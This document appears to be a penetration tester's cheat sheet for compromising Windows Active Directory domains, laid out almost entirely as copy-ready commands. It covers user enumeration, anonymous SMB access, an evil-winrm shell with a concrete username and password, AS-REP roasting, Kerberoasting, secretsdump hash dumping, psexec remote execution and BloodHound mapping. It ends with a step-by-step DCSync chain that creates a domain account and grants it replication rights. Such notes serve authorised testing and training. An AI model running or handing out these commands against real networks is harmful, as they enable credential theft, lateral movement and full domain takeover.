 # Active Directory

## Enumeration

Nmap:

`sudo nmap -n -sV --script "ldap* and not brute" <IP>`

`sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>`

Enum4Linux: `enum4linux <IP>`

Kerbrute: `./kerbrute userenum -d <Domain Controller> --dc <Target IP> /<Wordlst>`

## SMB

If Port 5985 is OPEN, you may be able to access a shell with valid SMB Credentials

SMB Shell: `evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`

SMB Connection: `smbclient \\<IP>\<Share> -U '<Username>'`

Check For Anonymous Access:

`smbmap -H <IP>`

`smbclient \\\\<IP>\<Share> -N`

`smbclient \\\\<IP>\\<Share> -c 'recurse;ls' -N`

## Impacket Scripts

AS-REP Roasting

GetNPUsers: 

`sudo python3 GetNPUsers.py <Domain Controller>/<Valid Username> -no-pass`

`sudo python3 GetNPUsers.py <Domain Controller>/ -dc-ip <IP> -request`

Kerberoasting

GetUsersSPNs: `sudo python3 GetUsersSPNs.py <Domain Controller>/<Valid Username> -dc-ip <IP> -request`

Hash Dump After DCSync

SecretsDump: `sudo python3 secretsdump.py <Domain Controller>/<New Username>@<IP>`

Remote PowerShell Connection

PsExec: `python psexec.py <Domain Controller>/<Username>:<Password>@<IP>`

## Bloodhound

Install: `sudo pip3 install bloodhound && wget https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip && unzip BloodHound-linux-x64.zip && mv BloodHound-linux-x64/BloodHound . && rm -rf BloodHound-linux-x64.zip BloodHound-linux-x64/`

Get Info: `bloodhound-python -d <Domain Controller> -u <Valid Username> -p <Password> -gc <Gloabl Catalog> -c all -ns <IP>`

Neo4j Console: `neo4j console`

BloodHound: `./BloodHound --no-sandbox`

# PowerView

Download: `curl -O https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1`

# DCSync Attack 

`net user <New Username> <New Password> /add /domain`

`net group "Exchange Windows Permissions" <New Username> /add /domain`

Import PowerView

`$pass = convertto-securestring '<New Password>' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('<Domain Controller>\<New Username>', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=<dc>,DC=<dc>" -PrincipalIdentity "<New Username>" -Rights DCSync`

# Extra Resources

[What is AS-REP Roasting?](https://stealthbits.com/blog/cracking-active-directory-passwords-with-as-rep-roasting/)

[Kuberos DCSync Attacks Explained](https://www.qomplx.com/kerberos_dcsync_attacks_explained/)

[PowerView 3.0 Tips & Tricks](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

[Pentesting Active Directory II](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
